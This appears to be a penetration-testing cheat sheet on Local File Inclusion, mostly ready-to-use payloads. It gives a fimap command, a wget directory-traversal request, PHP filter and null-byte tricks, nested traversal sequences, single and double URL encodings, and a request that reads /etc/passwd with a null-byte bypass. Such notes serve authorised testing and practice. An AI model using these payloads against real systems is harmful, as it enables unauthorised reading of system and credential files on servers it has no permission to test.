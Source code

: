 # LFI

```
# https://github.com/kurobeats/fimap
fimap -u "https://example.com?test="
```

## Wget

Sometimes browsers mess around with basic directory traversal sequences, but wget may work:

```
wget http://[host]/page.php?url=../../../../../../../file.html
```

## Tricks

- PHP Filter b64 (php://filter/zlib.deflate/convert.base64-encode/resource=FILE)
- Nullbyte ending (%00)
- 403bypass section may help

## Bypasses

### Nesting traversal sequences

```
....//
....\/
..../\
....\\
```

### URL Encoding

```
dot             %2e
forward slash   %2f
backslash       %5c
```

### Double URL Encoding

```
dot             %252e
forward slash   %252f
backslash       %255c
```

### Null Byte

Some applications check whether the user-supplied file name ends in a particular file type or set of file types, and reject attempts to access anything else. A null byte terminator (%00 or 0x00 in hex) will stop processing immediately, so that any bytes following it are ignored.

```
http://website/page=../../../etc/passwd%00
```